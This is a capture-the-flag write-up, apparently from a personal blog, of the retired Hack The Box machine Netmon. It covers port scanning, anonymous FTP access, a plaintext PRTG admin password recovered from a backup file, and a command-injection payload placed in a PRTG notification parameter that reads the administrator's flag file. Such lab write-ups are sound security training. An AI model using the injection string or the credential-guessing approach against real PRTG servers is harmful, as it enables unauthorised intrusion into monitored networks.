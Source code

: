```yaml
---
layout: post
title: "Netmon: Hack The Box Walkthrough"
date: 2019-06-30 05:27:39 +0000
last_modified_at: 2019-06-30 05:41:08 +0000
category: Walkthrough
tags: ["Hack The Box", Netmon, retired]
comments: false
image:
  feature: netmon-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/photos/computer-searches-internet-chat-1172404/
---
```


This post documents the complete walkthrough of Netmon, a retired vulnerable [VM][1] created by [mrb3n][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

Netmon is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.152 --rate=700

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-03-10 13:41:15 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 49666/tcp on 10.10.10.152
Discovered open port 49664/tcp on 10.10.10.152
Discovered open port 49677/tcp on 10.10.10.152
Discovered open port 49667/tcp on 10.10.10.152
Discovered open port 49665/tcp on 10.10.10.152
Discovered open port 52337/tcp on 10.10.10.152
Discovered open port 5985/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Discovered open port 47001/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 49668/tcp on 10.10.10.152
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 53099/tcp on 10.10.10.152
```

Whoa. `masscan` finds many open ports. Let's do one better with `nmap` scanning the discovered ports to see what services are available.

```
# nmap -n -v -Pn -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49677,52337,53099 -A --reason 10.10.10.152 -oN nmap.txt
...
PORT      STATE  SERVICE      REASON          VERSION
21/tcp    open   ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open   http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open   netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open   http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open   msrpc        syn-ack ttl 127 Microsoft Windows RPC
52337/tcp closed unknown      reset ttl 127
53099/tcp closed unknown      reset ttl 127
...
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-10 13:48:31
|_  start_date: 2019-03-10 13:32:38
```

Since anonymous FTP login is allowed, let's go with that first.

## File Transfer Protocol

To my pleasant surprise, `C:\Users\Public` is available.

<a class="image-popup">
![2f8bf31c.png](/assets/images/posts/netmon-htb-walkthrough/2f8bf31c.png)
</a>

And guess what, `user.txt` is here!

<a class="image-popup">
![90a90b90.png](/assets/images/posts/netmon-htb-walkthrough/90a90b90.png)
</a>

## PRTG Network Monitor

Moving on to the `http` service, this is how it looks like.

<a class="image-popup">
![542fe300.png](/assets/images/posts/netmon-htb-walkthrough/542fe300.png)
</a>

In conjuntion with the official security [advisory](https://www.paessler.com/about-prtg-17-4-35-through-18-1-37) and the [location](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data) of the various configuration files, I was able to uncover a plaintext password from the file below.

<a class="image-popup">
![adca4be4.png](/assets/images/posts/netmon-htb-walkthrough/adca4be4.png)
</a>

Here's the plaintext password.

<a class="image-popup">
![56c19c7a.png](/assets/images/posts/netmon-htb-walkthrough/56c19c7a.png)
</a>

And since this is a backup and knowing administrators increment the year for convenience's sake, the password may be `PrTg@dmin2019`. Let's give it a shot.

<a class="image-popup">
![3214f2a7.png](/assets/images/posts/netmon-htb-walkthrough/3214f2a7.png)
</a>

Awesome.

## PRTG < 18.2.39 Command Injection Vulnerability

During my research for vulnerability related to PRTG, I chanced upon this [blog](https://www.codewatch.org/blog/?p=453) discussing command injection vulnerability, with `SYSTEM` privileges no less.

Follow the instructions to create a notification with the following parameters.

```
test.txt; type c:\users\administrator\desktop\root.txt > c:\users\public\downloads\success.txt
```

Download `success.txt` from FTP and the content of `root.txt` is as follows.

<a class="image-popup">
![4de3a597.png](/assets/images/posts/netmon-htb-walkthrough/4de3a597.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/177
[2]: https://www.hackthebox.eu/home/users/profile/2984
[3]: https://www.hackthebox.eu/
